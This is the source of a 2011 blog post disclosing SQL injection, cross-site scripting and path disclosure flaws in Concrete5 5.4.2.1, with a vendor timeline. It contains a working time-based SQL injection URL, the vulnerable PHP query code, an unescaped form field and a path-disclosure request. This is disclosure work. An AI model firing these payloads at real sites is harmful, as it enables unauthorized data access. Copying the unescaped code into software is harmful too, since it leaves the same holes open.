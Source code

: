 ```yaml
---
layout: post
status: publish
published: true
title: Concrete5 <= 5.4.2.1 SQL Injection and XSS Vulnerabilities
author:
  display_name: ethicalhack3r
  login: ethicalhack3r
  email: ryandewhurst@gmail.com
  url: ''
author_login: ethicalhack3r
author_email: ryandewhurst@gmail.com
excerpt: "# Exploit Title: Concrete5 < = 5.4.2.1 SQL Injection and XSS Vulnerabilities\r\n#
  Date: 2011-10-04\r\n# Author: Ryan Dewhurst (ryandewhurst at gmail) (@ethicalhack3r)(www.ethicalhack3r.co.uk)\r\n#
  Software Link: http://sourceforge.net/projects/concretecms/files/concrete5/5.4.2.1/\r\n#
  Version: 5.4.2.1 (tested)\r\n\r\n1.Vulnerability Description\r\n\r\nMultiple SQL
  Injection, Cross-Site Scripting (XSS) and Information Disclosure vulnerabilities
  were identified within Concrete5 version 5.4.2.1\r\n\r\nPlease note: Only a select
  few vulnerabilities are outlined in this disclosure, many other vulnerabilities
  were discovered. Due to time restraints only a small sample of the vulnerabilities
  are outlined below. The vendor was contacted and replied promptly. Further assistance
  was asked for but not delivered due to my time constraints.\r\n\r\n2.Software Description\r\n\r\nCMS
  made for Marketing but built for Geeks, concrete5 [0] is a content management system
  that is free and open source.\r\n\r\n"
wordpress_id: 16555
wordpress_url: http://www.ethicalhack3r.co.uk/?p=16555
date: '2011-10-04 12:52:06 +0100'
date_gmt: '2011-10-04 11:52:06 +0100'
---
```

<p># Exploit Title: Concrete5 < = 5.4.2.1 SQL Injection and XSS Vulnerabilities<br />
# Date: 2011-10-04<br />
# Author: Ryan Dewhurst (ryandewhurst at gmail) (@ethicalhack3r)(www.ethicalhack3r.co.uk)<br />
# Software Link: http://sourceforge.net/projects/concretecms/files/concrete5/5.4.2.1/<br />
# Version: 5.4.2.1 (tested)</p>
<p>1.Vulnerability Description</p>
<p>Multiple SQL Injection, Cross-Site Scripting (XSS) and Information Disclosure vulnerabilities were identified within Concrete5 version 5.4.2.1</p>
<p>Please note: Only a select few vulnerabilities are outlined in this disclosure, many other vulnerabilities were discovered. Due to time restraints only a small sample of the vulnerabilities are outlined below. The vendor was contacted and replied promptly. Further assistance was asked for but not delivered due to my time constraints.</p>
<p>2.Software Description</p>
<p>CMS made for Marketing but built for Geeks, concrete5 [0] is a content management system that is free and open source.</p>
<p><a id="more"></a><a id="more-16555"></a></p>
<p>3.SQLi PoC [1] (authenticated user)</p>
<p>http://concrete5.4.2/index.php/dashboard/reports/surveys/?ccm_order_by=numberOfResponses&ccm_order_dir=,(SELECT BENCHMARK(1000000,MD5(1)) FROM btSurveyResults where CURRENT_USER() like 'root@localhost' limit 1) -- </p>
<p>4.Vulnerable code</p>
<p>File: concrete/controllers/dashboard/reports/surveys.php</p>
<p>{% highlight php %}
  class SurveyList extends DatabaseItemList {
       protected $itemsPerPage = 10;
       protected $autoSortColumns = array('cvName', 'question',
'numberOfResponses', 'lastResponse');

       function __construct() {
               $this->setQuery(
                          'select distinct btSurvey.bID,
CollectionVersions.cID, btSurvey.question, CollectionVersions.cvName,
(select max(timestamp) from btSurveyResults where btSurveyResults.bID
= btSurvey.bID and btSurveyResults.cID = CollectionVersions.cID) as
lastResponse, (select count(timestamp) from btSurveyResults where
btSurveyResults.bID = btSurvey.bID and btSurveyResults.cID =
CollectionVersions.cID) as numberOfResponses ' .
                               'from btSurvey, CollectionVersions,
CollectionVersionBlocks');
               $this->filter(false, 'btSurvey.bID =
CollectionVersionBlocks.bID');
               $this->filter(false, 'CollectionVersions.cID =
CollectionVersionBlocks.cID');
               $this->filter(false, 'CollectionVersionBlocks.cvID =
CollectionVersionBlocks.cvID');
               $this->filter(false, 'CollectionVersions.cvIsApproved = 1');
               $this->userPostQuery .= 'group by btSurvey.bID,
CollectionVersions.cID';
       }
}
{% endhighlight %}</p>
<p>5.Cross-Site Scripting (XSS)</p>
<p>Page: http://192.168.1.105/concrete5.4.2/index.php/login/forgot_password/<br />
Parameter: rcID<br />
Method: POST<br />
PoC: Any JavaScript</p>
<p>6.Vulnerable Code</p>
<p>File: concrete/single_pages/login.php:</p>
<p>{% highlight html %}<input type="hidden" name="rcID" value="< ?php echo $rcID?/>">{% endhighlight %}</p>
<p>7.Full Path Disclosure (FPD)</p>
<p>http://concrete5.4.2/index.php/tools/blocks/page_list/blog_rss?bID=30&cID='&arHandle=Main</p>
<p>8.Vulnerability Timeline</p>
<p>2011-09-06 - Reported to vendor<br />
2011-09-06 - Vendor Reply<br />
2011-09-07 - Vendor Acknowledge Vulnerabilities and asked for assistance patching. No assistance given apart from the initial report due to time constraints.<br />
2011-10-04 - Vulnerability Disclosed</p>
<p>9.References</p>
<p>[0] <a href="http://www.concrete5.org/" target="_blank">http://www.concrete5.org/</a><br />
[1] <a href="http://www.bonsai-sec.com/blog/index.php/not-the-average-sql-injection/" target="_blank">http://www.bonsai-sec.com/blog/index.php/not-the-average-sql-injection/</a></p>
